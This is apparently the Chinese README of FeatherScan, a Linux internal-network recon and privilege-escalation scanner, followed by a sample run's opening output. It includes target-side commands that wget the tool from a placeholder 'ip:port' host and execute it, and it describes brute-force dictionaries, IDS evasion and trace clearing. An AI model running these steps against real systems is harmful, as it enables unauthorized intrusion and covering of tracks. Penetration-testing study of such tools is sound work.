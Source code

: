 工具详细介绍：https://longyusec.com/longyushoulu/450/

[FeatherScan v4.0 – 适用于Linux的全自动内网信息收集工具-泷羽Sec](https://longyusec.com/longyushoulu/450/)

## 文件介绍

pass.txt ：用于爆破的密码字典，比如横向移动的mysql，ssh密码爆破  
user.txt : 爆破时候用的用户字典，脚本中也有默认的账号密码弱口令进行爆破  
feather_vuln_db.txt : linux提权exploit-db漏洞库，需要同FeatherScan一起上传到靶机

generate_vuln_db.sh : 在kali上执行，这是一个筛选脚本，用于获取最新的linux提权explod-db漏洞库，kali中更新本地漏洞库使用命令 searchsploit -u ，再执行这个脚本，会生成一个txt漏洞库，也就是 feather_vuln_db.txt

靶机：  

wget http://ip:port/FeatherScan_v4_5  
wget http://ip:port/feather_vuln_db.txt  
chmod +x FeatherScan_v4_5  
./FeatherScan_v4_5  

执行示例：
```
┌──(root㉿kali)-[/data/FeatherScan/FeatherScan_v4_5_]
└─# ./FeatherScan_v4_5

     ███████╗███████╗ █████╗ ████████╗██╗  ██╗███████╗██████╗
     ██╔════╝██╔════╝██╔══██╗╚══██╔══╝██║  ██║██╔════╝██╔══██╗
     █████╗  █████╗  ███████║   ██║   ███████║█████╗  ██████╔╝
     ██╔══╝  ██╔══╝  ██╔══██║   ██║   ██╔══██║██╔══╝  ██╔══██╗
     ██║     ███████╗██║  ██║   ██║   ██║  ██║███████╗██║  ██║
     ╚═╝     ╚══════╝╚═╝  ╚═╝   ╚═╝   ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
    
      高级Linux特权提升扫描工具
      泷羽Sec官网：https://longyusec.com | 作者：白小羽 | v：baibaixiaoyu2024 | v4.5


                  只要还有明天，今天就永远是起跑点，所以不要害怕从零开始！
    
    =================================================== 工具描述 =================================================
    1、linux内网信息收集，全面收集操作系统/内核版本、环境变量、用户信息等关键数据
    2、检测敏感文件权限、容器环境、服务配置等安全风险点,分析历史命令、环境变量、SSH配置等潜在攻击向量
    3、智能主机发现（ARP/Ping/TCP混合扫描）,多协议服务爆破（SSH/MySQL/SMB等）,网络路由分析、DNS配置检测和代理设置审查
    4、SUID/SGID文件扫描与危险程序识别,内核漏洞数据库匹配（脏牛、脏管道等）,Sudo规则审计与配置弱点分析
    5、Docker逃逸路径检测和容器安全评估,隐身扫描模式（避免触发IDS）,自动化痕迹清除机制,敏感信息掩码保护

$
    =================================================== 免责条款 =================================================
  1、在使用本工具之前，请确保您拥有对该机器的测试权限，不得非法入侵除您本人以外的，以及未授权的系统进行扫描或攻击等恶意行为。对于因非法使用本工具而产生的一切法律责任，由用户自行承担，泷羽 Sec 安全团队概不负责。
  2、用户不得对本工具进行反编译、逆向工程、修改源代码、解密等任何试图破解或篡改本工具的行为。
  3、如果需要商业版（源码版），请联系泷羽Sec安全团队的白小羽进行授权，v：baibaixiaoyu2024
  4、本工具创建的初衷就是方便干网安的师傅们学习交流使用，再次强调还请不要进行非法用途，谢谢您————此致，敬礼
    [?] 是否接受本协议?[Y/n]
y
[-] 您已接受该协议！程序即将开始运行。。
[-] 系统信息
[+] 当前用户: root
[+] 主机名: kali
[+] 操作系统: Kali GNU/Linux Rolling
[+] 内核版本: 6.12.25-amd64
[+] 扫描开始时间: Mon Jul 28 04:02:23 AM EDT 2025

[?] 是否执行深入检查?
  普通检查: 快速检测常见提权向量 (SUID, 可写文件, 内核漏洞等)
```